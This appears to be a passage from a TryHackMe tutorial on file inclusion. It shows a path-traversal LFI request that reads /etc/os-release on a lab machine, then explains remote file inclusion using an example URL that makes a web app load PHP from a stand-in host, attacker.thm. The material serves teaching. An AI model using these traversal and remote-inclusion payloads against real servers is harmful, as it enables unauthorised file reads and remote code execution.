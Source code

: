 ```lab 6

```

```
http://10.10.61.224/lab6.php?file=THM-profile/../../../../etc/os-release/.

Current Path
/var/www/html
File Content Preview of THM-profile/../../../../etc/os-release/.
NAME="Ubuntu" VERSION="12.04.5 LTS, Precise Pangolin" ID=ubuntu ID_LIKE=debian PRETTY_NAME="Ubuntu precise (12.04.5 LTS)" VERSION_ID="12.04" 
```
Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value? *12.04*

###  Remote File Inclusion - RFI 

Remote File Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.


The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

    Sensitive Information Disclosure
    Cross-site Scripting (XSS)
    Denial of Service (DoS)


An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0c2659127d95a0b633e94bd00ed10e0.png)

RFI steps

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.

<?PHP echo "Hello THM"; ?>

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

Visit the following lab URL: http://10.10.61.224/playground.php to try out an RFI attack.

